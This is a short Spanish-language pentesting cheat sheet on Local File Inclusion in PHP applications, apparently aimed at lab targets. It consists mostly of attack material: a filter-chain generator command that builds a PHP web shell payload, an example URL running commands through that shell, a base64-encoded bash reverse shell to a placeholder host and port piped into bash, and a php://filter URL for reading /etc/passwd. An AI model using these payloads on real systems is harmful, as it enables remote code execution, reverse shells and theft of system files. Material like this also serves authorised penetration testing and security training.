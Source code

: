 ```yaml
---
title : LFI (Local File Inclusion)
published : True
---
```

* <p> LFI : <a href="https://deephacking.tech/local-file-inclusion-lfi-web/">Local File Inclusion</a></p>
* <p>Local File Inclusion wrappers : <a href="https://deephacking.tech/php-wrappers-pentesting-web/">Wrappers</a></p>
* <p>Lfi exploit filter convert .ico : <a href="uploads/php_filter_chain_generator.py" download="php_filter_chain_generator.py">php_filter_chain_generator.py</a></p>


```bash
	python3 php_filter_chain_generator.py --chain '<?=`$_GET[0]`;?>'

```
* <p>Lo que nos permite un Shell con el parámetro indicativo 0 es decir:<br> <font color="red">http://10.10.10.10/login.php?0=whoami&file=//{chain generator}</font></p>
<p></p>
* <p> también podemos hacernos una <font color="red">web Shell</font> como parámetro, pero para no dar conflictos en cabeza a la url por la codificación, tendría que estar en base64.</p>
<p></p>
```bash
$ echo "/bin/bash -i >& /dev/tcp/{IP}/{PORT} 0>&1" | base64 
 L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwL3tJUH0ve1BPUlR9IDA+JjEK

```
* <p>Luego los parámetros a pasar por la url ya serian como :</p>
<p></p>
```bash
	echo "L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwL3tJUH0ve1BPUlR9IDA+JjEK" | base64 -d|bash

```
* <p><font color="red">Wraper de codificación en base64</font> para la lectura de un archivo.</p>
<p></p>

```bash
	http://10.10.10.10/login.php?file=php://filter/convert.base64-encode/resource=/etc/passwd

```

